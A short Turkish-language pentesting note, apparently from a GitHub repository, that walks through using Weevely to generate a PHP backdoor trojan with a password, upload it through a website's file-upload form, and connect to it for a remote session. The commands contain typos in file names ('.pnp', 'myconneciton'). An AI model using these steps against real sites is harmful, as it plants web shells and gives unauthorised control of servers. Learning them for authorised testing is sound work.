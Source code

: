 # Weevely

#### 1. ```.php``` kullanarak backdoor trojan oluşturmamızı sağlar
#### 2. ```weevely generate 11111 /root/myconnection.pnp``` şifremizi ve trojan'in kaydedileceği konumu yazıyoruz
#### 3. Sitemizin upload yapabileceğimiz kısımını açıyoruz
![](https://github.com/ahmetnuysal/Cyber-Security/blob/2ac777e091178628c515e1eb99546fe3aa5ed7d8/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-29%20at%2018.51.59.jpeg)
#### 4. Oluşturduğumuz php dosyasını upload ediyoruz
#### 5. ```weevely http://<IP>/../../uploads/myconneciton.php 11111``` yazarak session içine gireriz ve gezinebiliriz
